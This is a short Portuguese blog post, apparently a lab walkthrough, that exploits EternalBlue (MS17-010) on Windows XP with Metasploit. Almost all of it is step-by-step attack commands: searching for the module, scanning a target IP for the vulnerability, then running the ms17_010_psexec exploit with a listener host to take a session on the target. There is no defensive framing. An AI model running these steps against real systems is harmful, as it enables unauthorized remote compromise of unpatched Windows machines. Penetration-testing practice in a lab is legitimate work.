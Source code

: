 ```yaml
---
title: Exploitation - Eternal Blue ( WinXP )
category: post
---
```


>O EternalBlue é um exploit de ataque cibernético desenvolvido pela Agência de Segurança Nacional dos Estados Unidos da América. Foi divulgado pelo grupo de hackers Shadow Brokers em 14 de abril de 2017, um mês depois que a Microsoft lançou correções para a vulnerabilidade. by : Wikipédia

**Explorando o EternalBlue WindowsXP**


- Primeiro vamos entrar no metasploit logando com o msfconsole e procurar a Vulnerabilidade em questão.

```ruby
msfconsole
search eternalblue
```

or

```ruby
search ms17-010
```

---

- Agora temos que ter o 'host' do alvo, para verificarmos se o alvo é um target Windows XP e se está vulnerável.


```ruby
use auxiliary/scanner/smb/smb_ms17_010
set RHOST 10.10.1.4
exploit
```

- Se tudo der certo, obtemos uma resposta parecida com o seguinte:

```text
[+] 10.l0.1.4:445      - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.l0.1.4:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---


### Exploitation do host que identificamos que esta vulneravel


```ruby
back

use exploit/windows/smb/ms17_010_psexec

set RHOST 10.10.1.4

set LHOST 10.10.1.2

run
```